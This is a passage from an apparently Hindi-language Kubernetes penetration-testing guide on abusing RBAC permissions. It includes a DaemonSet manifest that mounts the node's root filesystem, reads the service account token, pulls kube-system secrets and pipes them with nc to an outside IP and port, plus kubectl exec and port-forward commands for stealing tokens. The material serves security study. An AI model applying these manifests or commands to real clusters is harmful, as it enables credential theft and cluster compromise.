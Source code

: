 इन अनुमतियों का दुरुपयोग करके **एक नया पॉड** बनाना और पिछले उदाहरण की तरह विशेषाधिकार स्थापित करना संभव है।

निम्नलिखित yaml **एक डेमनसेट बनाता है और पॉड के अंदर SA के टोकन को एक्सफिल्ट्रेट करता है:**
```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: kube-system
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
volumeMounts:
- mountPath: /root
name: mount-node-root
volumes:
- name: mount-node-root
hostPath:
path: /
```
### **Pods Exec**

**`pods/exec`** क्यूबेरनेट्स में एक संसाधन है जिसका उपयोग **पॉड के अंदर एक शेल में कमांड चलाने के लिए** किया जाता है। यह **कंटेनरों के अंदर कमांड चलाने या एक शेल प्राप्त करने** की अनुमति देता है।

इसलिए, यह संभव है कि **एक पॉड के अंदर जाएं और SA का टोकन चुरा लें**, या एक विशेषाधिकार प्राप्त पॉड में प्रवेश करें, नोड पर भागें, और नोड में सभी पॉड्स के टोकन चुरा लें और (ab)node का उपयोग करें:
```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```
### port-forward

यह अनुमति **एक स्थानीय पोर्ट को निर्दिष्ट पॉड में एक पोर्ट पर अग्रेषित करने** की अनुमति देती है। इसका उद्देश्य पॉड के अंदर चल रहे अनुप्रयोगों को आसानी से डिबग करना है, लेकिन एक हमलावर इसका दुरुपयोग करके पॉड के अंदर दिलचस्प (जैसे DBs) या कमजोर अनुप्रयोगों (वेब?) तक पहुंच प्राप्त कर सकता है:
```
kubectl port-forward pod/mypod 5000:5000
```
### Hosts Writable /var/log/ Escape
